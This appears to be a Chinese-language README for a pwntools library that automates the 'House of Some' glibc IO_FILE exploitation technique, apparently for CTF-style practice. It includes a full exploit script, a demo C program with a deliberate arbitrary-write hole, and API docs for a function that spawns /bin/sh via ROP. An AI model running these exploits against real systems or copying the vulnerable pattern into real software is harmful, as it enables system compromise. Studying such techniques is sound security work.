 # House of Some x Illusion

一种新的IO_FILE利用思路，利用条件为

1. 已知glibc基地址
2. 可控的地址（可写入内容构造fake file）
3. 需要一次libc内任意地址写可控地址
4. 程序能正常退出或者通过exit()退出

House of some具有以下优点：

1. 无视目前的`IO_validate_vtable`检查（wide_data的vtable加上检查也可以使用）
2. 第一次任意地址写要求低
3. 最后攻击提权是栈上ROP，可以不需要栈迁移
4. 源码级攻击，不依赖编译结果

详细思路见

House of Some: https://blog.csome.cc/p/house-of-some/

House of Illusion: https://enllus1on.github.io/2024/01/22/new-read-write-primitive-in-glibc-2-38/#more

## 自动化

在exit退出之后使用如下脚本即可

```python
from House_of_some import HouseOfSome
io = process("./demo")

...

libc = ELF("./libc.so.6", checksec=None)
libc.address = libc_base
hos = HouseOfSome(libc=libc, controled_addr=fake_file_start)
hos.bomb(io, ret_address)
```

- controled_addr：可写地址，作为延长的IO_list_all中的io file写入的起始地址

### 举个例子

```python
from pwn import *
from House_of_some import HouseOfSome

context.log_level = 'debug'
context.arch = 'amd64'

tob = lambda x: str(x).encode()
io = process("./demo")

io.recvuntil(b"[+] printf: ")
printf_addr = int(io.recvuntil(b"\n", drop=True), 16)
log.success(f"printf_addr: {printf_addr:#x}")

def add(size):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"size> ", tob(size))
    
def write(addr, size, content):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"size> ", tob(size))
    io.sendlineafter(b"addr> ", tob(addr))
    io.sendafter(b"content> ", content)

def leave():
    io.sendlineafter(b"> ", b"3")

libc = ELF("./libc.so.6", checksec=None)
add(0x200)
io.recvuntil(b"[+] done ")
heap_addr = int(io.recvuntil(b"\n", drop=True), 16)
log.success(f"heap_addr: {heap_addr:#x}")

libc_base = printf_addr - libc.symbols["printf"]
log.success(f"libc_base: {libc_base:#x}")

libc.address = libc_base
fake_file_start = heap_addr + 0xe0 + 0xe8
# 上方是信息收集
# ------------------------------------------------- # 
hos = HouseOfSome(libc=libc, controled_addr=fake_file_start)
# 构造第一个任意地址写原语
payload = hos.hoi_read_file_template(fake_file_start, 0x400, fake_file_start, 0)
io.sendlineafter(b"content> ", payload)
write(libc_base + 0x21a680, 8, p64(heap_addr))
leave() # exit

io_flush_all = libc.address + 0x8ea42 # Ubuntu GLIBC 2.35-0ubuntu3.1
hos.bomb(io, io_flush_all) # 一句话攻击

io.interactive()
```

demo.c源码

```python
#include<stdio.h>

int main(){
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
    int c;
    printf("[+] printf: %p\n", &printf);
    while (1) {
        printf(
            "1. add heap.\n"
            "2. write libc.\n"
            "3. exit\n"
            "> "
        );
        scanf("%d", &c);
        if(c == 1) {
            int size;
            printf("size> ");
            scanf("%d", &size);
            char *p = malloc(size);
            printf("[+] done %p\n", p);
            printf("content> ");
            read(0, p, size);
        } else if(c == 2){
            size_t addr, size;
            printf("size> ");
            scanf("%lld", &size);
            printf("addr> ");
            scanf("%lld", &addr);
            printf("content> ");
            read(0, (char*)addr, size);
        } else {
            break;   
        }
        
    }
    
}
```

## Docs

### class HouseOfSome(libc, controled_addr, zero_addr=libc.symbols['_environ']-0x10)

**Parameters**

- libc([ELF](https://docs.pwntools.com/en/latest/elf/elf.html#pwnlib.elf.elf.ELF)) - libc文件ELF对象
- controled_addr(int) - 可写地址，作为延长的IO_list_all中的io file写入的起始地址
- zero_addr(int) - 内容常0的地址

house of some自动化payload生成类

**Example**

```python
hos = HouseOfSome(libc=libc, controled_addr=fake_file_start)
hos.bomb(io, libc.symbols['_IO_file_underflow'] + 390)
```

#### bomb(io, retn_addr) -> None

直接一把梭提权，运用[pwntools自带工具ROP](https://docs.pwntools.com/en/latest/rop/rop.html)，其中执行函数为`rop.call('execve', [b'/bin/sh', 0, 0])`

**Parameters**

- io([tube](https://docs.pwntools.com/en/latest/tubes.html#pwnlib.tubes.tube.tube)) - 交互IO，详细见pwntools文档
- retn_addr(int) - 在运行到IO_new_read_file栈中，存放的返回地址，用于计算返回地址与_envrion泄露的栈的偏移

#### read(fd, buf, len, end=0) -> bytes

**Parameters**

- fd(int) - 文件表述符
- buf(int) - 待写入的地址
- len(int) - 写入长度
- end(bool) - 是否为最后一个fake_file

#### write(fd, buf, len) -> bytes

**Parameters**

- fd(int) - 文件表述符
- buf(int) - 待读取的地址
- len(int) - 读取长度

#### bomb_raw(io, retn_addr) -> int

执行此函数之后，当前io处在等待输入，并即将写入ROP

**Parameters**

- io([tube](https://docs.pwntools.com/en/latest/tubes.html#pwnlib.tubes.tube.tube)) - 交互IO，详细见pwntools文档
- retn_addr(int) - 在运行到IO_new_read_file栈中，存放的返回地址，用于计算返回地址与_envrion泄露的栈的偏移

**return**

返回泄露的栈地址，此栈地址是ROP的起始地址

